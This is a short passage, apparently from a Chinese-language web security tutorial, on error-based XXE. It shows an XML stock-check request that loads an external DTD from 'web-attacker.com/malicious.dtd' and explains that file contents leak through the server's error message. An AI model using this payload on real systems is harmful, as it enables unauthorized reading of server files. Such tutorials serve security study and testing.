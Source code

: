 调用外部 DTD 错误：

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

您应该会在 Web 服务器响应的错误消息中看到文件的内容。
![](<../.gitbook/assets/image (223).png>)
